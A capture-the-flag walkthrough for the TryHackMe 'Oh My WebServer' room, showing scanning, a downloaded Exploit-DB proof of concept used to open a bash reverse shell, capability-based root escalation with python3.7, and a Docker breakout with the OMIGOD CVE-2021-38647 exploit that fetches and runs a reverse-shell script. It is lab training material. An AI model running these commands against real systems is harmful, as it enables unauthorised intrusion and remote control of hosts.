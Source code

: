 # Oh My WebServer

**Room Link:** [https://tryhackme.com/room/ohmyweb](https://tryhackme.com/room/ohmyweb)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>



## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## TCP/80 - HTTP

**Kali**

```
gobuster dir -u $VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Initial Shell

**Exploit:** [https://www.exploit-db.com/raw/50383](https://www.exploit-db.com/raw/50383)

**Kali**

```
nc -lvnp 1337
```

**Kali**

```
wget https://www.exploit-db.com/raw/50383 -O poc.sh
chmod +x poc.sh
./poc.sh targets.txt /bin/bash "bash -c 'bash -i >& /dev/tcp/$KALI/1337 0>&1'"
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





## Privileges Escalation

**Exploit:** [https://gtfobins.github.io/gtfobins/python/](https://gtfobins.github.io/gtfobins/python/)

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
getcap -r / 2>/dev/null
/usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>



#### Nmap

Scanned the gateway&#x20;

**Kali**

```
wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
curl http://10.10.30.128:81/nmap -O nmap
chmod +x nmap
./nmap -p- 172.17.0.1 --min-rate=700 -vvv
```

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>



## Privileges Escalation / Breakout of Docker



**shell.sh**

```
#!/bin/bash

sh -i >& /dev/tcp/$KALI/1338 0>&1
```

**Kali**

```
git clone https://github.com/horizon3ai/CVE-2021-38647.git
cd CVE-2021-38647/
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
curl http://10.10.30.128:81/omigod.py -O omigod.py
```

**Kali**

```
nc -lvnp 1338
```

**Victim**

```
python3 omigod.py -t 172.17.0.1 -c "curl http://$KALI:81/shell.sh -O shell.sh"
python3 omigod.py -t 172.17.0.1 -c "chmod +x shell.sh"
python3 omigod.py -t 172.17.0.1 -c "./shell.sh"
```

<figure><img src="../../.gitbook/assets/image (622).png" alt=""><figcaption></figcaption></figure>





























